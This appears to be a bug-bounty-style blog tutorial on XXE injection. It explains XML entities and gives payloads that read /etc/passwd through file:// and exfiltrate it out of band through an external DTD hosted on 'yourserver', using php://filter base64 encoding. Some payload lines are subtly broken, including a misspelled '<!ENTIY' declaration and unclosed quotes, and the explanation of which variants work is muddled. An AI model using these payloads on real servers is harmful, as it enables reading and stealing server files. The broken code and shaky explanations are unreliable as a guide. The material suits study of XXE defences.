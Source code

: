 Hi all,

In this post we will cover these following topics.

What is XXE?
How to confirm XXE?
How Exploit Basic XXE?
How Blind XXE works?
and a alternative of blind XXE payload.

But first let's understand some basic keywords.

**Entity**: Entities *reference* data that act as an abbreviation or can be found at an external location. Syntax:- **&test;**

Most common entites are:-

**Internal Entity**: If an entity is declared within a DTD it is called as internal entity.<br>
*Syntax:-* `<!ENTITY entity_name "entity_value">`

**External Entity**: If an entity is declared outside a DTD it is called as external entity. Identified by 'SYSTEM'.<br>
*Syntax:-* `<!ENTITY entity_name SYSTEM "entity_value">`

**Parameter Entity**: The purpose of a parameter entity is to enable you to create reusable sections of replacement text. (If not understood, You will understand more clearly in later.)<br>
*Syntax:-* `<!ENTITY % entity "another entity (Internal or External)">`


## What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic.
2. Blind.

Basic one:-

For ex you have a url with a parameter that parses XML data somthing like this:- 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. You have to confirm the vulnerability existence and this can be done by something like this.

**Payload 1**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY test SYSTEM 'http://yourserverip/'>]>`<br>
`<root>&test;</root>`<br>

Now let's understand this. 

1.First we declare the xml Syntax, now, we define DOCTYPE to define the contents of XML body,<br> 
2.After that, we define root element after the DOCTYPE i.e. root, next, we define the Entity and that entity contains SYSTEM attribute which indicate that the entity is External.<br>
3.After that we define our server's ip because we want to let the target server to send the request to us.

Now when you give that payload to mis-configured XML parser, the mis-configured XML parser will parse the results and it will process our External entity by **requesting to your server.**

So if you got a new connection in the log file then it is confirmed that you have found XXE.

### Now it's time to exploit it.

Our main target is to read local files of the web server and this can be done using this payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`,

The xml parser will process this payload as same as above but instead of requesting to your server now it will request to locally, with the file protocol, it will grep the file contents and shown to us. Hence, we can read local file of the webserver.

## What if the xml data is not showing to us? (Blind XXE Case)

Okay,

Still you can confirm the existence of the vulnerability by using the first payload above. But you can't see the file contents of local files of webserver. This is still an issue but now the severity is a ***little bit low.*** And, this is called Blind XXE OR Out-of-band XXE.

So we also needed to blind means we have to use blind payload which will grep the contents of the local files of the webserver and send the contents to our server. Sound interesting, let's see how this whole theory works and also let's see that if we have some alternatives to do that.

**Payload 2**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY % test SYSTEM 'http://yourserver/xml.dtd'> %test; %exe]>`<br>
`<root>&entity;</root>`<br>

Your xml.dtd contents:- 

`<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">`
`<!ENTIY % exe "<!ENTITY entity SYSTEM 'http://yourserver/%file;'>">`<br>

Lot's of code to understand:-

> we are using External dtd file i.e. `%test;`. So first the xml parser will parse this entity and make a request to your web-server for getting the contents of dtd file. Now, in that dtd file we define some entities to process. 
>
> `%exe;` will make another general entity i.e. &entity; and that entity will make a request to our server with the *file contents.* which was found by the `%file;`
>
> When the xml parser parses the entity `%file;`, then that entity will grep the file contents of local files of the server (which is our main target). 
> We are using php filter to get the file contents to bypass any restrictions.
> Now attacker can log the request and reconstruct the file contents. 

Make sense?

Let's see how all this works.

<video src="/bandicam 2018-11-04 23-35-26-024.mp4" width="320" height="200" controls preload></video>

Cool. 

Now, *Have anyone arise a question that why **we call the dtd from attacker's server?** Why not this below payload works?*

**Payload 3**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY % filecontents SYSTEM 'file:///etc/passwd>`<br>
`<!ENTITY test SYSTEM 'http://yourserver/%filecontents;'>]>`<br>
`<root>&test;</root>`<br>

this would be easier than before? Yes it is, but it is not going to work. 

**According to [XML_DOC](https://www.w3.org/TR/xml/#wfc-PEinInternalSubset), actually parameter entity can't be called inside the DTD subset they can be called in the External subset (like we did in Payload no 2). It will be forbidden, hence you will get the forbidden error.**

So that's the reason why we can't run above payload.

Let's try another payload:-

**Payload 4**:

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY filecontents SYSTEM 'file:///etc/passwd>`<br>
`<!ENTITY test SYSTEM 'http://yourserver/&filecontents;'>]>`<br>
`<root>&test;</root>`<br>

So this payload works without any problem but your entity (oops, will correct it later) will act as string, because entity should be in root tag, if it is not it will act as String.

That's all guys, I just want to share because I want. :). Any thing you want to edit please tell me in the comment section.

Hope you like this read. 

Have a good hacking day.

Thanks




